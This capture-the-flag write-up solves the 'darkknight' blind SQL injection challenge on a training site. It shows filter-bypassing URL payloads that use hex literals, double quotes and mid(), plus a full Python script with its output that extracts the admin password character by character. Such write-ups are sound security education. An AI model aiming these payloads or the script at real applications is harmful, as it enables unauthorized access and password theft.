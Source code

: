 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 12
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/6cde625d-39f4-4536-bdd2-e4bacc1b7d44)

We are provided with the SQL query:

```sql
SELECT id FROM prob_darkknight WHERE id='guest' AND pw='{$_GET[pw]}' AND no={$_GET[no]}
```

The code performs two conditional checks:

1. `if($result['id'])`: It checks if the statement is `True`. If yes, it prints the message `Hello {$result[id]}`
2. `if(($result['pw']) && ($result['pw'] == $_GET['pw']))`: It then checks if the `pw` that is provided is correct. If yes, it prints the flag.


In order to print out the flag, we need to first know the password. We have to perform a Blind SQL Injection.

This challenge also filters out the quotes character. 

We have to use Hexadecimal representations instead of strings. Alternatively, we can use the double-quote (`"`) character to bypass the filter.

## Blind SQL Injection

### Retrieving the password length

If we provide the following URI parameter:

```
?no=0 OR id LIKE 0x61646d696e AND length(pw) LIKE 1
```

The resultant query becomes:

```sql
SELECT id FROM prob_darkknight WHERE id='guest' AND pw='' AND no=0 OR id LIKE 0x61646d696e AND length(pw) LIKE 1
```

![2](https://github.com/Kunull/Write-ups/assets/110326359/70be2f68-c530-4dcc-a541-a9b8938765df)

Since the `Hello admin` message is not printed, we know that the resultant query did not result in `True`.

That tells us that the length of the `pw` column is more than 1.

If we keep increasing the length and provide the following URI parameter:

```
?no=0 OR id LIKE 0x61646d696e AND length(pw) LIKE 8
```

The resultant query becomes:

```sql
SELECT id FROM prob_darkknight WHERE id='guest' AND pw='' AND no=0 OR id LIKE 0x61646d696e AND length(pw) LIKE 8
```

![4](https://github.com/Kunull/Write-ups/assets/110326359/a1ed7953-f711-4a32-9573-2eeb70fb0e4b)

Since the `Hello admin` message is printed, we know that the resultant query resulted in `True`.

That tells us that the length of the `pw` column is 8.

### Leaking the password

This challenge also filters the `substring()` function.

Therefore, in order to leak the password, we will have to use the `mid()` function.
#### `mid()`

![3](https://github.com/Kunull/Write-ups/assets/110326359/2a05edee-9e1c-43b3-8970-4ea391376a28)

If we provide the following URI parameter:

```
?no=0 OR id LIKE 0x61646d696e AND mid(pw, 1, 1) LIKE 0x30
```

The resultant query becomes:

```sql
SELECT id FROM prob_darkknight WHERE id='guest' AND pw='' AND no=0 OR id LIKE 0x61646d696e AND mid(pw, 1, 1) LIKE 0x30
```

![5](https://github.com/Kunull/Write-ups/assets/110326359/89f8306f-902d-4bdc-bd15-4357ce6586b3)

Since the `Hello admin` message is printed, we know that the resultant query resulted in `True`.

That tells us that the first character of the `pw` for `id=admin` is `0x30` which is `0`.

We can move onto the second character:

```
?no=0 OR id LIKE 0x61646d696e AND mid(pw, 2, 1) LIKE 0x30
```

The resultant query becomes:

```sql
SELECT id FROM prob_darkknight WHERE id='guest' AND pw='' AND no=0 OR id LIKE 0x61646d696e AND mid(pw, 2, 1) LIKE 0x30
```

![6](https://github.com/Kunull/Write-ups/assets/110326359/227d4a99-7fca-41ba-a579-55a57325abea)

Since the `Hello admin` message is not printed, we know that the resultant query did not result in `True`.

That tells us that the first character of the `pw` for `id=admin` is not `0x30` which is `0`.

We can keep repeating this process until we get all the eight characters of the admin password:

```
0b70ea1f
```

### Script

We can automate the entire process using a script.

```python title="darkknight_script.py"
import requests
import urllib.parse
import string

cookies = {'PHPSESSID': 'd6k46orbbik0hppkki48hqdg9k'}
url = 'https://los.rubiya.kr/chall/darkknight_5cfbc71e68e09f1b039a8204d1a81456.php'
password_length = 0

for x in range(0, 10):
  payload = f'0 OR id LIKE "admin" AND length(pw) LIKE {x}'
  encoded_payload = urllib.parse.quote_plus(payload)
  full_url = f"{url}?no={encoded_payload}"
    
  response = requests.get(full_url, cookies=cookies)
    
  if "Hello admin" in response.text:
    password_length = x
    break

print()    
print(f'[!] Payload: ?no={payload}')
print(f'[!] Payload (URL encoded): ?no={encoded_payload}')
print(f'[!] Password length: {password_length}')

password = ''
searchspace = string.digits + string.ascii_letters

for index in range(1, password_length + 1):
  for char in searchspace:
    payload = f'0 OR id LIKE "admin" AND mid(pw, {index}, 1) LIKE "{char}"'
    encoded_payload = urllib.parse.quote_plus(payload)
    full_url = f'{url}?no={encoded_payload}'

    response = requests.get(full_url, cookies=cookies)

    if 'Hello admin' in response.text:
      password += char
      print()
      print(f'[+] Payload: ?no={payload}')
      print(f'[+] Payload (URL encoded): ?no={encoded_payload}')
      print(f'[+] Character at index {index}: {char}')
      break

print()
print(f'[!] Extracted password: {password}')
print(f'[!] Final payload: ?pw={password}')
```

```
python .\darkknight_script.py

[!] Payload: ?no=0 OR id LIKE "admin" AND length(pw) LIKE 8
[!] Payload (URL encoded): ?no=0+OR+id+LIKE+%22admin%22+AND+length%28pw%29+LIKE+8
[!] Password length: 8

[+] Payload: ?no=0 OR id LIKE "admin" AND mid(pw, 1, 1) LIKE "0"
[+] Payload (URL encoded): ?no=0+OR+id+LIKE+%22admin%22+AND+mid%28pw%2C+1%2C+1%29+LIKE+%220%22
[+] Character at index 1: 0

[+] Payload: ?no=0 OR id LIKE "admin" AND mid(pw, 2, 1) LIKE "b"
[+] Payload (URL encoded): ?no=0+OR+id+LIKE+%22admin%22+AND+mid%28pw%2C+2%2C+1%29+LIKE+%22b%22
[+] Character at index 2: b

[+] Payload: ?no=0 OR id LIKE "admin" AND mid(pw, 3, 1) LIKE "7"
[+] Payload (URL encoded): ?no=0+OR+id+LIKE+%22admin%22+AND+mid%28pw%2C+3%2C+1%29+LIKE+%227%22
[+] Character at index 3: 7

[+] Payload: ?no=0 OR id LIKE "admin" AND mid(pw, 4, 1) LIKE "0"
[+] Payload (URL encoded): ?no=0+OR+id+LIKE+%22admin%22+AND+mid%28pw%2C+4%2C+1%29+LIKE+%220%22
[+] Character at index 4: 0

[+] Payload: ?no=0 OR id LIKE "admin" AND mid(pw, 5, 1) LIKE "e"
[+] Payload (URL encoded): ?no=0+OR+id+LIKE+%22admin%22+AND+mid%28pw%2C+5%2C+1%29+LIKE+%22e%22
[+] Character at index 5: e

[+] Payload: ?no=0 OR id LIKE "admin" AND mid(pw, 6, 1) LIKE "a"
[+] Payload (URL encoded): ?no=0+OR+id+LIKE+%22admin%22+AND+mid%28pw%2C+6%2C+1%29+LIKE+%22a%22
[+] Character at index 6: a

[+] Payload: ?no=0 OR id LIKE "admin" AND mid(pw, 7, 1) LIKE "1"
[+] Payload (URL encoded): ?no=0+OR+id+LIKE+%22admin%22+AND+mid%28pw%2C+7%2C+1%29+LIKE+%221%22
[+] Character at index 7: 1

[+] Payload: ?no=0 OR id LIKE "admin" AND mid(pw, 8, 1) LIKE "f"
[+] Payload (URL encoded): ?no=0+OR+id+LIKE+%22admin%22+AND+mid%28pw%2C+8%2C+1%29+LIKE+%22f%22
[+] Character at index 8: f

[!] Extracted password: 0b70ea1f
[!] Final payload: ?pw=0b70ea1f
```

Now, we can provide password URI parameter:

```
?pw=0b70ea1f
```

The resultant query becomes:

```sql
SELECT id FROM prob_darkknight WHERE id='guest' AND pw='0b70ea1f' AND no=
```

![7](https://github.com/Kunull/Write-ups/assets/110326359/57213d19-deff-48b5-9681-d2cc8de28edf)
